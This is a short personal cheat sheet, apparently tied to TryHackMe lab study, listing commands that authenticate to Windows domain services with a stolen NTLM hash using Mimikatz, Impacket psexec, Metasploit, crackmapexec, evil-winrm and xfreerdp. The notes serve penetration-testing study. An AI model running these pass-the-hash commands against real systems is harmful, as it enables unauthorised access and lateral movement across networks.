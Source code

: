 ```yaml
---
category: Uncategorized
tags: []
---
```

#cme #mimikatz #msf #evil-winrm #xfreerdp 
# Pass The Hash
- As [NetNTLM](NetNTLM.md) is inherently flawed, the password hash can be treated as a password.
- NTLM hash can be used to directly authenticate to a domain/service
- [Mimikatz](../../Cheatsheet/Mimikatz.md) for extracting Credentials
### Mimikatz
```powershell
sekurlsa::pth /user:user.name /domain:za.tryhackme.com /ntlm:<hash> /run:<command>
```
### Impacket's PsExec.py
```bash
python psexec.py -hashes <hash> domain/username@<server/ip>
```
### Metasploit PsExec module
```
exploit/windows/smb/psexec
```
### Crackmapexec
```bash
crackmapexec smb <server/IP> -u username -H <hash>
```
### evil-winrm
```bash
evil-winrm -i <server/IP> -u <username> -H <hash>
```
### xfreerdp
```bash
xfreerdp /v:<server/IP> /u:<domain\username> /pth:<hash> 
```